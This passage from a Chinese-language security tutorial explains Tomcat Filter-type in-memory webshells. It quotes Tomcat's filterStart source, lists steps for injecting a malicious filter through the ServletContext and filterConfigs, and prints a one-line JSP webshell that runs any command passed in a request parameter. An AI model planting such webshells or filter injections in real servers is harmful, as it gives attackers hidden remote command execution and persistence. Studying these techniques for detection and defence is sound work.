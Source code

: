 ```
public boolean filterStart() {

        if (getLogger().isDebugEnabled()) {
            getLogger().debug("Starting filters");
        }
        // Instantiate and record a FilterConfig for each defined filter
        boolean ok = true;
        synchronized (filterConfigs) {
            filterConfigs.clear();
            for (Entry<String,FilterDef> entry : filterDefs.entrySet()) {
                String name = entry.getKey();
                if (getLogger().isDebugEnabled()) {
                    getLogger().debug(" Starting filter '" + name + "'");
                }
                try {
                    ApplicationFilterConfig filterConfig =
                            new ApplicationFilterConfig(this, entry.getValue());
                    filterConfigs.put(name, filterConfig);
                } catch (Throwable t) {
                    t = ExceptionUtils.unwrapInvocationTargetException(t);
                    ExceptionUtils.handleThrowable(t);
                    getLogger().error(sm.getString(
                            "standardContext.filterStart", name), t);
                    ok = false;
                }
            }
        }

        return ok;
    }
```

### 构造思路

通过前文分析，得出构造的主要思路如下
1、获取当前应用的ServletContext对象
2、通过ServletContext对象再获取filterConfigs
2、接着实现自定义想要注入的filter对象
4、然后为自定义对象的filter创建一个FilterDef
5、最后把 ServletContext对象、filter对象、FilterDef全部都设置到filterConfigs即可完成内存马的实现

## 0x04 Filter 型内存马的实现

我们先来看一下 JSP 的无回显的内存马：

JAVA

```
<% Runtime.getRuntime().exec(request.getParameter("cmd"));%>
```

是这样的，简单的命令执行，接着我们看有回显的木马

